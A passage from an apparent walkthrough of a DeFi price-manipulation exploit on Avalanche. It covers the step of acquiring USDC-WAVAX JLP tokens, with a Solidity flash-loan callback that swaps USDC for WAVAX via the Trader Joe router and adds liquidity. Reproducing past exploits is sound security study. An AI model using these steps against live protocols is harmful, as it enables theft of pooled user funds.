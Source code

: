 ### Step 3: Acquire JLP tokens before price manipulation

The attacker now acquires a small amount of JLP tokens prior to manipulating the price. They do this by:

1. Swapping 280,000 USDC for WAVAX tokens using the [Trader Joe Router contract](https://snowtrace.io/address/0x60aE616a2155Ee3d9A68541Ba4544862310933d4).
2. Adding 260,000 USDC and as much WAVAX as possible to the USDC-WAVAX JLP token's liquidity pool. We can achieve this as follows:

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;"><span style="color:rgb(77, 77, 76); font-weight:400;">function <span style="color:rgb(66, 113, 174); font-weight:400;">executeOperation</span><span style="color:rgb(245, 135, 31); font-weight:400;">(
  <span style="color:rgb(142, 144, 140); font-weight:400;">// ...</span>
)</span> <span style="color:rgb(137, 89, 168); font-weight:400;">public</span> <span style="color:rgb(66, 113, 174); font-weight:400;">returns</span> <span style="color:rgb(245, 135, 31); font-weight:400;">(<span style="color:rgb(137, 89, 168); font-weight:400;">bool</span>)</span> </span>{
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 1: Swap 280,000 USDC for as much WAVAX as possible</span>
  address[] memory path = <span style="color:rgb(137, 89, 168); font-weight:400;">new</span> address[](<span style="color:rgb(245, 135, 31); font-weight:400;">2</span>);
  path[<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>] = <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(usdc);
  path[<span style="color:rgb(245, 135, 31); font-weight:400;">1</span>] = <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(wavax);

  router.<span style="color:rgb(245, 135, 31); font-weight:400;">swapExactTokensForTokens</span>(<span style="color:rgb(245, 135, 31); font-weight:400;">280000e6</span>, <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>, path, <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>), block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Step 2: Add 260,000 USDC and as much WAVAX as possible into the WAVAX/USDC LP pool</span>
  router.<span style="color:rgb(245, 135, 31); font-weight:400;">addLiquidity</span>(
    <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(usdc),
    <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(wavax),
    <span style="color:rgb(245, 135, 31); font-weight:400;">260000e6</span>,
    wavax.<span style="color:rgb(245, 135, 31); font-weight:400;">balanceOf</span>(<span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>)),
    <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>,
    <span style="color:rgb(245, 135, 31); font-weight:400;">1</span>,
    <span style="color:rgb(245, 135, 31); font-weight:400;">address</span>(<span style="color:rgb(137, 89, 168); font-weight:400;">this</span>),
    block.timestamp * <span style="color:rgb(245, 135, 31); font-weight:400;">5</span>
  );
}</code></pre>

To understand how to call these functions, you can check the code in the router contract (linked above).
